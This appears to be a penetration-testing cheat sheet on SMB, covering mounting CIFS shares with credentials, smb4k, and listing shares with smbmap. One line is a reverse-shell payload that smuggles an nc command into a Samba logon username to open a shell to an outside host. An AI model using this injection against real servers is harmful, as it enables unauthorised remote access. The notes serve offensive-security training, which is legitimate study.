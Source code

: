 We can then mount this directly using the following two options. N.B. The difference is that mount.cifs is a wrapper for mount.
```
mount -t cifs //10.11.1.31/wwwroot /mnt/myshare
mount.cifs //10.11.1.31/wwwroot /mnt/myshare
```

Passing in options
```
mount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
```

To unmount a particular share, you have two options. You can either 

a) navigate to the share on your local system and run
```
umount -A
```

Or

b) you can run the same command with the path following from any directory
```
umount -A /tmp/
```

To get a shell back from an SMB share.
```
logon "/=`nc 10.11.0.233 443 -e /bin/bash`"
```

## smb4k

To install
```
apt-get install smb4k -y
```

To Run
```
smb4k
```

## Smbmap

List all shares
```
smbmap -H 10.11.1.2
```
Recursively view all files inside a share named share
```
smbmap -H 10.11.1.2 -r "share"
```
  
## Pass The Hash  
  
More To Come :-)
